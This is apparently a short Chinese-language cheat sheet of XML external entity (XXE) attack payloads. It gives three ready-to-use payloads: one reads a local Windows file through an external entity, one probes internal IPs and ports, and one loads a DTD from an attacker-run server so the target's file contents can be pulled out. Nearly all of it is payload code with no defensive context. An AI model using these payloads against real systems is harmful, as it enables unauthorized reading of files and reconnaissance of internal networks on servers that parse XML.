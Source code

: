 ### 有回显利用

- 读文件
```xml
<?xml version= "1.0" encoding= "utf-8"?>

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY aaa SYSTEM "file:///C:/Windows/win.ini" >]>

<name>&aaa;</name>
```

- 内网探测(探测些端口啊之类的)
```
<!ENTITY aaa SYSTEM "http://ip:port" >]>
```

- 加载外部实体(去访问dtd文件时，会把dtd文件当做xml去执行。(对方没有禁用外部实体))
```
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://ip:port/eval.dtd">（开启服务）
%dtd;
]>
<name>&send;</name>


例如：外部dtd文件
eval.dtd：
	<!ENTITY send SYSTEM "file:///C:/windows/win.ini">
```


